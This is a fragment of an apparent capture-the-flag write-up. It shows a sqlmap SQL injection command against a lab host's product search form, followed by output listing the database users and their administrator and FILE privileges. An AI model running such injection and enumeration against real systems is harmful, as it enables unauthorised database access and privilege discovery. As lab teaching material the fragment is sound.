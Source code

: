 ```sh
$sqlmap -u http://10.10.10.167/search_products.php --data productName=1 --proxy http://127.0.0.1:8080 --privileges
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.3#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[...]

[17:08:55] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[17:08:55] [INFO] fetching database users privileges
database management system users privileges:
[*] 'hector'@'localhost' (administrator) [29]:
    privilege: ALTER
    privilege: ALTER ROUTINE
    privilege: CREATE
    privilege: CREATE ROUTINE
    privilege: CREATE TABLESPACE
    privilege: CREATE TEMPORARY TABLES
    privilege: CREATE USER
    privilege: CREATE VIEW
    privilege: DELETE
    privilege: DELETE HISTORY
    privilege: DROP
    privilege: EVENT
    privilege: EXECUTE
    privilege: FILE
    privilege: INDEX
    privilege: INSERT
    privilege: LOCK TABLES
    privilege: PROCESS
    privilege: REFERENCES
    privilege: RELOAD
    privilege: REPLICATION CLIENT
    privilege: REPLICATION SLAVE
    privilege: SELECT
    privilege: SHOW DATABASES
    privilege: SHOW VIEW
    privilege: SHUTDOWN
    privilege: SUPER
    privilege: TRIGGER
    privilege: UPDATE
[*] 'manager'@'localhost' [1]:
    privilege: FILE
[*] 'root'@'127.0.0.1' (administrator) [29]:
    privilege: ALTER
    privilege: ALTER ROUTINE
    privilege: CREATE
    privilege: CREATE ROUTINE
    privilege: CREATE TABLESPACE
    privilege: CREATE TEMPORARY TABLES
    privilege: CREATE USER
    privilege: CREATE VIEW
    privilege: DELETE
    privilege: DELETE HISTORY
    privilege: DROP
    privilege: EVENT
    privilege: EXECUTE
    privilege: FILE
    privilege: INDEX
```